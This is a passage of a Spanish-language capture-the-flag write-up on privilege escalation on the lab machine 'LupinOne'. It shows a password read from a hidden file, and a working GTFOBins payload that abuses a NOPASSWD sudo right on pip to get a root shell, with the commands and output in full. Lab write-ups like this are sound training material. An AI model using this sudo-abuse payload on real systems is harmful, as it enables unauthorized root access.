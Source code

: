 # Privilege Escalation
## Abusing sudo privilege in `pip`
La nota contiene una credencial.
```console
(remote) arsene@LupinOne:/home/arsene$ cat .secret 
I dont like to forget my password "rQ8EE"UK,eV)weg~*nd-`5:{*"j7*Q"
```

Esta credencial no es de `root`, es del propio usuario `arsene`
```console
(remote) arsene@LupinOne:/home/arsene$ su root
Password: 
su: Authentication failure
(remote) arsene@LupinOne:/home/arsene$ su arsene
Password: 
arsene@LupinOne:~$ 
```

Rápidamente vemos que tenemos permisos para ejecutar como `root` el comando `pip`
```console
(remote) arsene@LupinOne:/home/arsene$ sudo -l
Matching Defaults entries for arsene on LupinOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User arsene may run the following commands on LupinOne:
    (root) NOPASSWD: /usr/bin/pip
```

Una rápida búsqueda en [GTFOBins](https://gtfobins.github.io/) nos revela que podemos escalar privilegios fácilmente en esta situación.
![Write-up Image](images/Screenshot_17.png)

Simplemente vamos a copiar y a pegar el payload que se nos incluye.
```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

```console
(remote) arsene@LupinOne:/home/arsene$ TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
Processing /tmp/tmp.RH0TsNx4x7
\[\](remote)\[\] \[\]root@LupinOne\[\]:\[\]/tmp/pip-req-build-krphgk6r\[\]$ id
uid=0(root) gid=0(root) groups=0(root)
```
